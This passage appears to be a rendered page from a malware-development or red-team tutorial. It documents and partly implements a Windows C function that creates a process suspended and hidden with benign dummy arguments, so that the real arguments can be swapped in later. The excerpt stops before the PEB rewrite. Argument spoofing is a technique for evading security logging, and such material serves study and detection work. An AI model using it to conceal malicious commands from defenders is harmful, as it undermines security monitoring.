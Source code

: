 `CreateArgSpoofedProcess` is a function that performs argument spoofing on a newly created process. The function requires 5 arguments:

- `szStartupArgs` - The dummy arguments. These should be benign.
    
- `szRealArgs` - The real arguments to execute.
    
- `dwProcessId` - A pointer to a DWORD that receives the PID.
    
- `hProcess` - A pointer to a HANDLE that receives the process handle.
    
- `hThread` - A pointer to a DWORD that receives the process's thread handle.
    

```c
BOOL CreateArgSpoofedProcess(IN LPWSTR szStartupArgs, IN LPWSTR szRealArgs, OUT DWORD* dwProcessId, OUT HANDLE* hProcess, OUT HANDLE* hThread) {

	NTSTATUS                      STATUS   = NULL;

	WCHAR                         szProcess [MAX_PATH];

	STARTUPINFOW                  Si       = { 0 };
	PROCESS_INFORMATION           Pi       = { 0 };

	PROCESS_BASIC_INFORMATION     PBI      = { 0 };
	ULONG                         uRetern  = NULL;

	PPEB                          pPeb     = NULL;
	PRTL_USER_PROCESS_PARAMETERS  pParms   = NULL;


	RtlSecureZeroMemory(&Si, sizeof(STARTUPINFOW));
	RtlSecureZeroMemory(&Pi, sizeof(PROCESS_INFORMATION));

	Si.cb = sizeof(STARTUPINFOW);

	// Getting the address of the NtQueryInformationProcess function
	fnNtQueryInformationProcess pNtQueryInformationProcess = (fnNtQueryInformationProcess)GetProcAddress(GetModuleHandleW(L"NTDLL"), "NtQueryInformationProcess");
	if (pNtQueryInformationProcess == NULL) 
		return FALSE;


	lstrcpyW(szProcess, szStartupArgs);

	if (!CreateProcessW(
		NULL,
		szProcess,
		NULL,
		NULL,
		FALSE,
		CREATE_SUSPENDED | CREATE_NO_WINDOW,      // creating the process suspended & with no window
		NULL,
		L"C:\\Windows\\System32\\",               // we can use GetEnvironmentVariableW to get this Programmatically
		&Si,
		&Pi)) {
		printf("\t[!] CreateProcessA Failed with Error : %d \n", GetLastError());
		return FALSE;
	}


	// Getting the PROCESS_BASIC_INFORMATION structure of the remote process which contains the PEB address
```